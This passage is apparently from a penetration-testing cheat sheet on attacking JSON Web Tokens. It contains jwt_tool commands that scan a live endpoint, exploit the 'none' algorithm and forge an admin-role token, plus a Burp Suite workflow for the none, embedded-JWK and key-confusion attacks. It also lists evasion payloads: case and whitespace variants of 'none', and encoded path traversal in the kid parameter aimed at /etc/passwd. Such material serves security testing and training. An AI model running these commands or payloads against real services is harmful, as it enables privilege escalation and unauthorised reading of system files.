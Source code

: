        python3 jwt_tool.py eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1c2VyMTIzIn0.signature
       
       # Run all tests against live endpoint
       python3 jwt_tool.py -M at -t "https://api.example.com/profile" -rh "Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1c2VyMTIzIn0.signature"
       
       # If "none" algorithm vulnerability is found, exploit it
       python3 jwt_tool.py -X a -T eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1c2VyMTIzIn0.signature
       
       # If weak key is found, sign a tampered token
       python3 jwt_tool.py -S hs256 -p "discovered_secret" -T -pc role -pv admin eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1c2VyMTIzIn0.signature
       ```

    2. **Using Burp Suite JWT Editor extension for attack automation**:
       - Step 1: Install the JWT Editor extension in Burp Suite
       - Step 2: Capture a request containing a JWT token
       - Step 3: Send to Repeater and switch to the "JSON Web Token" tab
       - Step 4: Use the built-in attacks:
         - Change signature algorithm to "None"
         - Embedded JWK attack
         - Key confusion attack
       - Step 5: Modify payload claims using the interface
       - Step 6: Send the modified request
       - Testing insight: Use Burp Intruder with JWT Editor's capabilities for automated testing
       - Example workflow:
         1. Capture token-bearing request in Proxy
         2. Send to Repeater
         3. Modify claims in JSON Web Token tab
         4. Select attack from the dropdown
         5. Use attack-specific options
         6. Send modified request
         7. Analyze the response

- **Evasion techniques for JWT attacks**
  1. **Signature verification bypass obfuscation**:
     - Try using different letter cases: `alg: "none"`, `alg: "None"`, `alg: "NONE"`
     - Add whitespace: `alg: "none "`, `alg: " none"`
     - Use alternative encodings: URL-encode parts of the token
     - Use non-standard encodings for "none": `alg: "nOnE"`
     - Add non-standard attributes in the header to confuse parsers
     - Pad base64 sections with extra characters
     - Test variations on algorithm names: "hs256" instead of "HS256"

  2. **Evading key ID (kid) parameter restrictions**:
     - Use alternative path traversal sequences: `....//....//....//etc/passwd`
     - URL-encode path traversal characters: `%2e%2e%2f%2e%2e%2fetc%2fpasswd`
     - Double URL-encode path traversal: `%252e%252e%252f%252e%252e%252fetc%252fpasswd`
     - Use Unicode normalization bypasses: `.%c0%ae/%c0%ae/etc/passwd`
     - Use null byte injection: `../../../etc/passwd%00`
     - Try alternative path separators: `..\..\etc\passwd`
     - Mix path separators: `../..\..\etc/passwd`
